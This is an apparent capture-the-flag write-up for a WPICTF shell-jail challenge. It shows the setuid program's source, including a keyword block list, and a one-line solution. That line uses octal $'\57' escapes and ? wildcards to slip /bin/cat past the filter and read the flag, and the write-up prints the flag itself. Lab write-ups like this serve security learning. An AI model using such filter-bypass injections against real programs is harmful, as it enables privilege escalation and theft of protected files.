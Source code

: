 Shell-JAIL-2
==================
**Category**: Pwn  **Points**: 250

Challenge Description
------

```
Download the login private key, then run:

ssh -p 31337 -i login shjail@shelljail2.wpictf.xyz

redundant servers on 31338 and 31339

made by Ben Chaney

```

Solutions
----------
This is the second jail break challenge, the files are all the same except for one line in access.c

```
54cd9d6b47ef:/home/pc_owner$ ls -la
total 28
drwxr-xr-x    1 pc_owner pc_owner      4096 Apr 13 08:03 .
drwxr-xr-x    1 root     root          4096 Apr 13 08:03 ..
-r-sr-sr-x    1 pc_owner pc_owner     10912 Apr 13 08:03 access
-r--r--r--    1 pc_owner pc_owner      1030 Apr 13 05:39 access.c
-r--r-----    1 pc_owner pc_owner        28 Apr 13 05:39 flag.txt
54cd9d6b47ef:/home/pc_owner$ 
```
Cat access.c
```
54cd9d6b47ef:/home/pc_owner$ cat access.c
#include <sys/types.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <strings.h>
#include <string.h>

char *gen_cmd(int argc, const char **argv){
	size_t total_size = 1;
	for(int it = 1; it < argc; it++){
		total_size+= strlen(argv[it]);
	}
	char *ret = malloc(total_size);
	total_size = 0;
	for(int it = 1; it < argc; it++){
		size_t len = strlen(argv[it]);
		memcpy(ret+total_size, argv[it], len); 
		total_size+= len;
		ret[total_size] = ' ';
		total_size++;
	}
	ret[total_size] = '\0';
	return ret;
}

int filter(const char *cmd){
	int valid = 1;
	valid &= strstr(cmd, "*") == NULL;
	valid &= strstr(cmd, "sh") == NULL;
	valid &= strstr(cmd, "/") == NULL;
	valid &= strstr(cmd, "home") == NULL;
	valid &= strstr(cmd, "pc_owner") == NULL;
	valid &= strstr(cmd, "flag") == NULL;
	valid &= strstr(cmd, "txt") == NULL;
	return valid;
}


int main(int argc, const char **argv){
	setreuid(UID, UID);
	char *cmd = gen_cmd(argc, argv);
	if (!filter(cmd)){
		exit(-1);
	}
	setenv("PATH", "", 1); 
	system(cmd);
}

```

This time the line `setenv("PATH", "", 1);` is really a hassle, without environment variables we must specify the full 
path like `/bin/cat`

Luckily we can still use `$, \, '` therefore we can specify `/` as `$'\57'`, 57 being the octave value of the backslash.

My solution was
```
39a698d34cd4:/home/pc_owner$ ./access "$'\57'bin$'\57'cat f???.???"
wpi{p0s1x_sh3Lls_ar3_w13rD}
```
`flag: wpi{p0s1x_sh3Lls_ar3_w13rD}`
